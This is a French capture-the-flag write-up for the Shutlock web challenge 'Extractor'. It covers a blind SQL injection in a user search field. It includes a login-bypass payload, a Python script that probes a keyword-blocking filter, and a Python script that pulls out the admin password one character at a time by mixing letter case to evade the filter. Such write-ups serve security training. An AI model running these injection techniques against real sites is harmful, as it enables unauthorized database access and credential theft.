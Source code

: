 # Extractor 

* type: Web
* points : 500
* auteur : [Marwane Azzouzi aka \_marwanee\_](https://www.linkedin.com/in/marwane-azzouzi1) 

---

## Synopsis
Lors de notre enquête approfondie sur les agissements d’une organisation criminelle, nos experts ont réussi à sécuriser une base de données particulièrement précieuse.

Votre mission, si vous l'acceptez, est de pénétrer cette base de données et d'exfiltrer les informations critiques.

Format du flag: SHLK{[a-zA-Z0-9_]}

http://challenges.shutlock.fr:50000

## Premier contact

La première des politesses est d'aller saluer sa future victime, et nous arrivons sur une page web à la Matrix's style avec trois champs possible pour une injection SQL.

## Tries and fails

Premier réflex dans ce genre d'exercice, c'est de tenter un bypass dans les champs du login, on ne sais jamais, un jour un simple ```admin' OR True -- - # ``` payer, mais malheureusement, pas aujourd'hui.

Donc on va jouer un peu avec le champs de recherche des utilisateurs, et comme d'habitude, mon réflexe est de chercher pour l'utilisateur **admin** (tant qu'a récupérer des droits, autant avoir ceux de dieux !).

Le site nous gratifie d'un magnifique "Found 1 result", je sens arriver la bind SQLi arriver à grand pas !

Là où je suis plus circonspect, c'est que si je tapes uniquement "a" dans la recherche il me répond oui, serions nous dans une requête du genre :

```sql
select * from users where username like %; 
```

Cela serait une grande première pour moi, pour le vérifier, je vais passer "b" et "d" dans la zone de recherche, et sans grand surprise "d" est positif alors que "b" non. On peut faire notre Maurice et pousser le bouchon un peu plus loin en essayant "ab" et "ad". Je vous laisse deviner lequel remonte le "Found 1 result".

On peut ~~perdre du temps~~ jouer un peu avec notre cible et créer un script en python pour tenter d'exfiltrer les usernames, mais il va nous manquer une information capitale, le mot de passe.

## You know nothing John Snow !

Maintenant que nous avons notre champ d'injection potentielle, nous allons devoir tester un peu tout cela. On tente une petite SQLi de base, et la **PAF**, c'est le drame, le site web nous retourne un 403 (Forbiden). Et mercredi ! ils  ont implémenté un pseudo WAF dans l'exercice

Bon, on va donc essayer de trouver la liste des verbes SQL autorisé pour l'injection

```python
def test():
    alphabet = string.printable
    OK = []
    NOK = []
    SQL = [
        "select",
        "SeLEct",
        "where",
        "union",
        "unIon",
        "and",
        "aNd",
        "or",
        "Or",
        "substring",
        "substr",
        "suBstr",
        "like",
        "by",
        "asc",
        "desc",
        "from",
        "having",
        "||",
        "&&",
    ]
    for car in alphabet:
        # reponse = r.get(url + ":" + str(port) + uri + module + f"{car}")
        reponse = r.get(f"{url}:{port}{uri}{module}{car}")
        print(f"testing {car}", end="\r")
        if reponse.status_code == 200:
            OK += car
        else:
            nok += car

    if alphabet == OK:
        p.success("il n'y a aucune restriction")
    else:
        p.warn(f"attention, uniquement la liste suivante est refusée {NOK}")

    OK = []
    NOK = []
    for verbe in SQL:
        reponse = r.get(f"{url}:{port}{uri}{module}{verbe}")
        print(f"testing {verbe}", end="\r")
        if reponse.status_code == 200:
            OK += [verbe]
        else:
            NOK += [verbe]
    if NOK:
        p.warn(f"attention, les verbes suivants sont interdit: {NOK!s}")
```

Ce petit bout de code va tester deux choses:

* Il y a-t-il des caractères interdit dans les caractères imprimable
* Il y a-t-il des verbes SQL interdit

Et on trouve que les caractères """ et ";" sont interdit, ainsi qu'un grand nombre de verbre, mais certain le sont uniquement en minuscule, et les versions alternative passent (en mélangeant la casse)

Nous allons donc exploiter cela dans notre injection

```python
def main():
    password = ""
    inc = 1
    loop = True
    while loop:
        count = 0
        for car in alphabet:
            print(f"testing {password}{car}", end="\r")
            reponse = r.get(
                f"{url}:{port}{uri}{module}xxxxx%25'+oR+subStr(passWorD,{inc},1)='{car}'+oR+'x'='xx"
            )
            if str("Found 1 result") in reponse.text:
                password += car
                inc += 1
                count = 0
            count += 1

            if count == len(alphabet):
                print(f"{password=!s}")
                loop = False
            else:
                continue
```

Nous allons lui passer notre injection et nous allons essayer de de récupérer le mot de passe un caractère à la fois.

### Exploit en action

[![asciicast](https://asciinema.org/a/fmbzkYl2oU2kRNr4LAs7Ee8pp.svg)](https://asciinema.org/a/fmbzkYl2oU2kRNr4LAs7Ee8pp)

## Flag me to the moon !

Une fois le mot de passe récupéré, nous allons pouvoir nous log en tant qu'admin

![interface de logs](./IMG/Admin Logs.png)

